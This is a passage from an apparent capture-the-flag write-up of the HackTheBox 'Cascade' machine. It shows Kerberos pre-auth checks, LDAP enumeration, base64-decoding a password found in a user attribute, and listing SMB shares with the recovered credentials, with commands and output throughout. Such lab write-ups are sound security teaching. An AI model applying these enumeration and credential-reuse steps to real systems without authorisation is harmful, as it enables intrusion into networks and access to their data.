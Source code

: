 ```
[-] User r.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User util doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
We see that didn't work. Let's move on to LDAP and see if we can glean any information from the users' properties.

### Port 189 (LDAP)
Now at this part we can take a leaf out of IppSec's book from his [Ypuffy video to conduct LDAP enumeration](https://www.youtube.com/watch?v=UoB-J-eDvrg):
```
ldapsearch -x -h cascade.htb -s sub -b 'DC=cascade,DC=local' > ldap3
```
Then `grep` the output for key words like `PWD`:
```
$ less ldap3 | grep Pwd
maxPwdAge: -9223372036854775808
minPwdAge: 0
minPwdLength: 5
badPwdCount: 0
maxPwdAge: -37108517437440
minPwdAge: 0
minPwdLength: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
badPwdCount: 0
cascadeLegacyPwd: clk0bjVldmE=
```
Well, whaddayaknow, we got ourselves a password :)

### SMB shares as r.thompson
Take a closer look at our `ldap3` output and see that the password belongs to `r.thompson`. But first, notice that it's encoded in Base64, so decode it:
```
$ echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```
Now we got the plaintext password, let's try to access SMB shares as `r.thompson`:
```
$ smbmap -H cascade.htb -u 'r.thompson' -p 'rY4n5eva'
[+] IP: cascade.htb:445 Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```